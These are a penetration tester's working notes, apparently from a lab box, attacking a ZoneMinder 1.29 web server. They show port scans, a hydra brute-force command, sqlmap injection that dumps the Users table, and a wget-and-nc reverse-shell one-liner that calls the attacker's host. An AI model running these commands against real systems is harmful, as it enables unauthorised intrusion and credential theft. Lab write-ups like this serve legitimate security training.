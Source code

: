Given IP target 192.168.236.52

Speedrun port scan for opens
	rustscan 192.168.236.52 
		PORT     STATE SERVICE    REASON
		21/tcp   open  ftp        syn-ack
		22/tcp   open  ssh        syn-ack
		80/tcp   open  http       syn-ack
		3305/tcp open  odette-ftp syn-ack
		8080/tcp open  http-proxy syn-ack

nmap -sC -sV -T5 -p 21,22,80,3305,8080 192.168.236.52 -oN services.txt
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 3.0.3
	22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
	|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
	|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Pebbles
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-title: Apache2 Ubuntu Default Page: It works
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Apache Tomcat
	|_http-open-proxy: Proxy might be redirecting requests
	|_http-title: Tomcat
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


dirbuster http://192.168.236.52
	login form on http://192.168.236.52/index.php
		![[Pasted image 20231102090354.png]]
	prep hydra command
		hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.236.52  http-post-form "/index.php:username=^USER^&password=^PASS^:Incorrect username or password"
			:Data fields:"login fail message"
			Too many concurrent actions causes false positives
	Found zm directory
		http://192.168.236.52/zm/index.php
		![[Pasted image 20231102092635.png]]
		
dirbuster http://192.168.236.52:8080
dirbuster http://192.168.236.52:3305
	![[Pasted image 20231102091749.png]]

Now searchsploit on the ZoneMinder software ZoneMinder, v1.29.0
	searchsploit ZoneMinder                                                                                                          
		 Exploit Title                                                                                               |  Path
		------------------------------------------------------------------------------------------------------------- ---------------------------------
		ZoneMinder 1.24.3 - Remote File Inclusion                                                                    | php/webapps/17593.txt
		**Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery  | php/webapps/41239.txt**

The exploit page has examples of SQLi

I want tables and databases

sqlmap with the payload from exploitdb got me an os-shell

![[Pasted image 20231102101542.png]]

Now to connect a reverse nc to get a proper shell
	wget "http://192.168.45.198/nc" -O /tmp/nc && chmod +x /tmp/nc && /tmp/nc -e /bin/bash 192.168.45.198 4444


Trying to manually log in

sqlmap http://192.168.236.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm -T Users -C Username,Password --dump --threads 5

![[Pasted image 20231102102857.png]]

So basically admin:admin

Now where to log in?



os-shell returns no data so it's likely broken

